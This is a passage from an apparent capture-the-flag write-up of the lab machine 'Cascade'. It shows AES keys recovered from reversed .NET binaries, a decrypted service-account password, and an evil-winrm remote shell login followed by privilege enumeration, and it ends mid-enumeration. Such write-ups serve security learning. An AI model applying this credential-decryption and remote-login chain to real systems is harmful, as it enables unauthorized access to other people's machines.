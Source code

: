 We transfer all theese files to our machine. Using the `download` command.

We open the `Audit.db` file in an sql database reader and we can see decoding it doesnt work.

![sqlpwdread](https://i.ibb.co/kVn4Yrf/sql-pwd-read.png)

```bash
➜  cascade echo "BQO5l5Kj9MdErXx6Q6AGOw==" | base64 -d
������D�|zC�;
```

We assume that it is encoded using some kind of other encryption.

I use visual studio to reverse CascCrypto.dll and in the folder `CascCrypto->CascCrypto.dll->CascCrypto->Crypto` we find an encryption key.

```
Encoding.UTF8.GetBytes("1tdyjCbY1Ix49842");
```

So the key is `1tdyjCbY1Ix49842`

We now do the same thing with `CascAudit.exe` and in `CascAudit->CascAudit.exe->CascAudiot->MainModule` we find another key.

```bash
password = Crypto.DecryptString(encryptedString, "c4scadek3y654321"); }
```

We attempt to use aes decryption to decode the ciphertext.

![aes](https://i.ibb.co/C6Ln5z9/aes.png)

And now we have the password: `w3lc0meFr31nd`

We login with `evil-winrm` as the user arksvc.

```bash
➜  cascade evil-winrm -i cascade.htb -u arksvc -p w3lc0meFr31nd

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents>
```

We run `whoami /all` to check what privelages we have and we get some interesting results:
```bash
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
cascade\arksvc S-1-5-21-3332504370-1206983947-1165150453-1106


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
```